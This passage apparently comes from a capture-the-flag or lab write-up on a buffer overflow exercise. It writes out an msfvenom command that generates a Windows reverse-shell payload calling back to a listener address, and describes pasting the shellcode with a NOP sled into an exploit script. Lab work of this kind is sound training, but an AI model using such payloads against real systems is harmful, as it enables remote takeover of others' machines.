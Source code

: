   * Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously
  
    ```
    msfvenom -p windows/shell_reverse_tcp LHOST=10.17.127.223 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
    ```

    ![task2-msfvenom](./images/task2-msfvenom.png)

  * Update `exploit.py` script and set the payload variable to the string of generated C code, also add variable padding to  `"\x90" * 16`
   